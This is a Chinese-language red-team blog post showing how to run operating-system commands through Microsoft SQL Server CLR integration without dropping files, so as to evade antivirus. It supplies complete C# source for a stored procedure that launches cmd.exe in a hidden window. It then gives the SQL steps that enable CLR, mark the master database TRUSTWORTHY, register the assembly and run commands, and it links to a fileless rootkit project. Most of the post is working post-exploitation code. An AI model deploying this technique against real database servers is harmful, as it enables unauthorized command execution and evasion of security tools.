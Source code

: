 ```yaml
---
title: 利用MSSQL CLR 实现不落地命令执行
date: 2023-02-05
categories: [红蓝对抗]
tags: [红蓝对抗, MSSQL]
---
```


## 0X00 前言 

​	在我们想要通过SQL Server来执行命令的时候，我们通常的做法是通过`xp_cmdshell`和`sp_OACreate`来实现执行命令的需求，然而在某些条件下，我们在利用这两个存储过程的时候经常会遇到被查杀拦截等情况，这些情况导致我们无法达到我们执行的命令的需求，本文将介绍另外一种方法：利用SQL Server CLR来实现不落地执行命令的需求。

## 0X01 什么是CLR

​	CLR是微软的公共语言运行库，是 .NET Framework 的核心，为所有 .NET Framework 代码提供执行环境。 在 CLR 中运行的代码称为托管代码。 CLR 提供执行程序所需的各种函数和服务，包括实时 (JIT) 编译、分配和管理内存、强制类型安全、异常处理、线程管理和安全性。使用在 Microsoft SQL Server 中驻留的 CLR（称为 CLR 集成），可以在托管代码中编写存储过程、触发器、用户定义函数、用户定义类型和用户定义聚合。 由于托管代码在执行之前才编译为本机代码，因此在某些情形下可以大幅提高性能。

## 0X02 基于CLR的恶意dll

示例代码：

```c#
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```

在编译的时候要注意这个地方选择生成`.sql`文件

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/1.png)

同时要将权限级别改为`UNSAFE`，因为我们要调用外部程序，必须设置为`UNSAFE`才可以。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/2.png)

这段代码编译后会产生这几个文件![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/3.png)

我们可以使用SQL Server来引用这个dll文件去执行命令，这种方式这里不加以赘述，这里将讨论无文件落地的命令执行。

## 0X03 无文件落地的命令执行

在SQL Server 2016以后，默认禁用了基于CLR的DLL文件，我们可以通过如下命令解除禁用

```sql
sp_configure 'clr enabled',1
GO
RECONFIGURE
GO
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/4.png)

确认可信任关系

```sql
ALTER DATABASE master SET TRUSTWORTHY ON;
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/5.png)

接下来我们需要用上述目录中生成的`.sql`文件中的一段代码来创建我们的存储过程

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/6.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/7.png)

可见成功创建了一个clr的程序集，然后我们使用如下代码创建存储过程

```sql
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR(MAX)
AS EXTERNAL NAME [clr].[StoredProcedures].[ExecCommand]
go
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/8.png)

可见成功创建了存储过程，然后执行命令

```sql
exec dbo.execcommand 'whoami'
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/9.png)

## 0x04 小结

​	CLR的命令执行可以在一些情况下bypass杀软达到我们预期执行命令的需求，笔者在这里只是给出简单的demo代码，具体复杂的实现，读者可以自行研究，或可魔改或可直接使用[这个项目](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit/)实现其他功能。

### 注：本文仅用于安全研究和学习之用